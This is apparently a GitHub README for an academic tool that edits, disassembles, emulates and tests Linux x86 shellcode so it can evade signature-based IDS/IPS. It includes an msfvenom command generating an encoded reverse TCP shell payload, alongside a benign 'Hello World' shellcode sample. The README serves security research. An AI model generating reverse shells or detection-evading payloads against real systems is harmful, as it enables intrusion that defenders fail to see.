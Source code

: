 # Shellcode Assistant

A useful script for hex editing, writing and/or testing **Linux x86 shellcode** to bypass IDS/IPS.

**Tested on Kali Linux Rolling x86**

The script was developed for a Offensive Technologies research project by students of OS3. We were looking for a comfortable and efficient way of altering existing shellcode. This tool will help reproduce the experiments of our research.

It is designed to make the process of altering shellcode to bypass **signature based** detection easier. It takes a raw shellcode file as input and offers various options, including dumping code in hexadecimal or Intel x86 ASM format, compiling code using a C wrapper and executing and checking a raw shellcode file for a specific string. In addition, it can emulate, analyse and generate a graph for x86 shellcode using Libemu. Automatic recompilation, which triggers when the modification time stamp changes, is another useful feature that might save time when raw shellcode is manually modified and saved using a hex editor. **We recommend using the automatic recompilation mode**.

The script also provides an **interactive command line interface**, similar to Metasploit's nasm-shell, for assembling and disassembling instructions. It does this using the Capstone and Keystone libraries.

## Dependencies
* Python 3 (≥ 3.5)
* Capstone
* Keystone
* Libemu
* gcc

## Setup

```
# python3 libraries
pip3 install capstone
pip3 install keystone-engine
pip3 install colorama

# gcc is required for compiling the raw shellcode into an executable
sudo apt install build-essential

# libemu is required for outputting a graph using Libemu's sctest
sudo apt install graphviz
sudo apt install libemu2
```

## Usage

```
=============================================================
                -- Shellcode Assistant v1.0 --
=============================================================

usage: shellcode_assistant.py [-h] -f FILE [-o OFFSET] [-t] [-s STDOUT]
                              [-se STDERR] [-x] [-c] [-e] [-d] [-a] [-A] [-R]
                              [-ob]

== Tool to assist a user in modifiying shellcode ==

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  Enter path to file.
  -o OFFSET, --offset OFFSET
                        Set hexadecimal program offset.
  -t, --test            Run and test compiled executable.
  -s STDOUT, --stdout STDOUT
                        Check STDOUT for a specific string.
  -se STDERR, --stderr STDERR
                        Check STDERR for a specific string.
  -x, --hexdump         Dump hex code.
  -c, --compile         Compile file using C wrapper.
  -e, --emulate         Emulate and analyse shellcode using Libemu.
  -d, --disassemble     Disassemble shellcode.
  -a, --assembler       Start ASM interactive assembler / disassembler mode.
  -A, --all             Run all functions above.
  -R, --autorecompile   Automatic recompiling and testing upon file
                        modification time change.
  -ob, --objdump        Use Linux objdump instead of Python Capstone library.
```

*The Python Capstone library might truncate code in certain cases. Use --objdump if necessary.*

## Examples

```
root@kali:~/OT-Project# python3 shellcode_assistant.py -f testing.bin -A -s "Hello World" -o 40404040
root@kali:~/OT-Project# python3 shellcode_assistant.py -f testing.bin -R
```

### Demo - Modifying Shikata Ga Nai Encoded 'Hello World' Shellcode

<img title="" src="https://raw.githubusercontent.com/alexander-47u/Shellcode-Assistant/master/demo.gif" width="1000px" height="565" alt="" data-align="center">

**Diagram generated by Libemu**

<img title="" src="https://raw.githubusercontent.com/alexander-47u/Shellcode-Assistant/master/demo.png" width="600px" height="484" alt="" data-align="center">

### ASM Interactive Assembler / Disassembler

```
...
0x40404064    2    31 DB               xor    ebx, ebx
0x40404066    2    CD 80               int    0x8
---------------------------------------
Last Modified: Sat May 16 16:48:48 2020
---------------------------------------
asm > ?
x86-instruction | recompile | test | emulate | ls | clear | exit
asm > jmp esp; inc ecx; inc ebx
\xFF\xE4\x41\x43
asm > 0xFFE5
jmp    ebp
asm > \xFF\xE6
jmp    esi
asm > emulate

Shellcode emulated:
Diagram saved as 'testing.bin.dot' & 'testing.bin.png'
---------------------------------------
asm >
```

### Obtaining raw shellcode

#### Method 1 - Compiling ASM and Dumping Code Section to HEX

```
1. Compile ASM Code
nasm -f elf32 helloworld.asm -o helloworld.o

2. Dump object code to hex code
objdump -d ./helloworld.o|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

3. Save hex shellcode to raw shellcode file using echo
echo -e "\x31\xc0\xb0\x04\x31\xdb\xb3\x01\x31\xd2\x52\x68\x72\x6c\x64\x0a\x68\x6f\x20\x57\x6f\x68\x48\x65\x6c\x6c\x89\xe1\xb2\x0c\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80" > testing.bin
```

#### Method 2 - Using Metasploit's Shellcode Generator

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -f raw -b "\x00" -e x86/shikata_ga_nai -o testing.bin
```

## Authors

Alexander-OS3

Jelle-OS3

## TO-DO

* Add support for Linux x64
* Create script with Windows support
